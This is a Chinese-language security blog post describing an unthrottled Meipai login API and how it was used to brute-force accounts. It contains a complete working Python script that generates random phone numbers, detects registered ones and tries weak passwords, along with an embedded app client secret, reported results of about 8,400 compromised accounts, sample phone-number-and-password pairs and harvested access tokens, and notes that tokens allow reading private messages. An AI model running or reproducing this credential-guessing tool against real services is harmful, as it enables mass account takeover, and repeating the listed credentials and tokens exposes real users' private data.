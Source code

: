 ```yaml
---
layout: post
title: 美拍接口未限频导致的帐号随机密码碰撞
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>


#### 一个接口

美拍进行手机号登录时会对手机号先进行注册检测，接口会返回登录情况：

![/images/dsjaiodjisaj18792n1x807he712x0je72111x9](/images/dsjaiodjisaj18792n1x807he712x0je72111x9.png)

![/images/oiu412incin8v9xm1uds89adas](/images/oiu412incin8v9xm1uds89adas.png)

如果手机帐号存在但密码错误则提示：

![/images/asaj18792n1x807he712x0je72111x9](/images/asaj18792n1x807he712x0je72111x9.png)

这里我们进行频繁的手机号随机登录查询，是没有限制频率的，所以我们可以通过不断生成手机号然后验证帐号是否注册，随后进行密码破解的操作。（大量帐号的密码破解情况下，弱口令会有很大的空间。）

#### 小脚本

> 1. 随机生成手机号码
> 2. 进行密码破解
> 3. 进行结果存储



        #!/usr/bin/env python
        # coding=utf8
        # author=evi1m0#ff0000.cc
        # create=20150216


        import json
        import random
        import requests
        import threadpool as tp


        def _burp(phone):
            for pwd in ['123456', '123456789', '000000', phone]:
                api_url = 'http://newapi.meipai.com/oauth/access_token.json'
                data = {'phone': phone,
                        'client_id': '1089857302',
                        'client_secret': '38e8c5aet76d5c012e32',
                        'grant_type': 'phone',
                        'password': pwd,}
                try:
                    print '[*] Burp Phone: %s' % phone
                    req = requests.post(api_url, data=data, timeout=5)
                except:
                    continue
                try:
                    success = json.loads(req.content)['access_token']
                    burp_success = open('./meipai_account.txt', 'a+')
                    burp_success.write('%s:::%s\n'%(phone, pwd))
                    burp_success.close()
                    print success
                    return success
                except:
                    success = 0
                    print '[-] Burp False'
                    continue


        def _status(args):
            flag = 0
            while True:
                flag += 1
                phone_number = random.choice(['188','185','158','153','186','136','139','135'])\
                               +"".join(random.sample("0123456789",8 ))
                data = {'phone': phone_number,
                        'client_id': '1089857302',
                        'client_secret': '38e8c5aet76d5c012e32',
                        'grant_type': 'phone',
                        'password': '1',}
                api_url = 'http://newapi.meipai.com/oauth/access_token.json'
                try:
                    print '[%s] Test Phone: %s' % (flag, phone_number)
                    req = requests.post(api_url, data=data, timeout=3)
                    req_status = json.loads(req.content)['error_code']
                except:
                    req_status = 0
                if req_status == 21402 or req_status == 23801:
                    success_f = open('./success_reg_phone.txt', 'a+')
                    success_f.write('%s\n'%phone_number)
                    success_f.close()
                    _burp(phone_number)
                    print '\n[OK] Phone: %s\n' % phone_number


        if __name__ == '__main__':
            args = []
            for i in range(30):
                args.append(args)
            pool = tp.ThreadPool(30)
            reqs = tp.makeRequests(_status, args)
            [pool.putRequest(req) for req in reqs]
            pool.wait()
            
![IMG_u901jfd9x99naak.jpg](/images/IMG_u901jfd9x99naak.jpg)


#### 继续脚本

![40a661e4551847f5762e077e48c97d76](/images/40a661e4551847f5762e077e48c97d76.png)

我们进行了3台服务器的脚本部署，然后一天后进行数据统计：

1. success_reg_phone.txt
2. mp_account_data.txt

其中```success_reg_phone.txt```为注册美拍的帐号，```mp_account_data.txt```为成功爆破的美拍帐号。

去重整理之后的数据：

    wc meipai_account.txt
    8427    8427  198653 meipai_account.txt
    
    wc success_reg_phone.txt
    92531   92532 1110383 success_reg_phone.txt

其中成功登录```8427```，注册美拍的手机号```92531```。

    head meipai_account.txt
    
    13501235896:::13501235896
    13501239874:::13501239874
    13501256394:::123456789
    13501264953:::123456
    13501279546:::123456
    13501468359:::123456
    13501476253:::123456
    13501526734:::13501526734
    13501529843:::13501529843
    13501549263:::123456

随后我们对```92531```个手机号码去掉已经成功登录的```8427```个手机号后，进行二次的密码爆破。

> 美拍帐号登录错误5次会进行3个小时的密码锁定，所以三个小时能进行一次新的top密码破解；


#### 数据统计

部署脚本的第二天我们停止了测试，因为这次仅仅是为了配合接口做次弱密码统计：

    cat meipai_account.txt  | awk -F::: '{print $2}' | sort | uniq -c | head

      65 000000
      98 111111
      19 123123123
    5293 123456
    3059 123456789
     296 5201314    

#### 简单利用

帐号成功登录后会返回一个类似于新浪微博授权的access_token，所以编写脚本进行access_token的收取工作即可；

    e.g:

    head meipai_access_token.txt
    
    00000027d3490ad1dd12c619fc82217a
    000c2518d5e477afc15ef26b23f94c3d
    001cedff4d578f454104a48523bb6b0c
    0023688a2428bd56f8a530c7e38fe6c8
    002812f57c139a3bcfa99a2b6f973286
    00287174138355393b755705c516a456
    0034285349fc1f3c8cc0fdb42dace741
    003a77922fb49d48097ee91a4cb20be2
    003a7e6e21088d2f3d83a6864bf922ee
    00685824290db6eac554577e729fb8ec
    
拥有access_token后可对帐号进行任意操作，比如：关注、查看私信、个人资料信息获取等。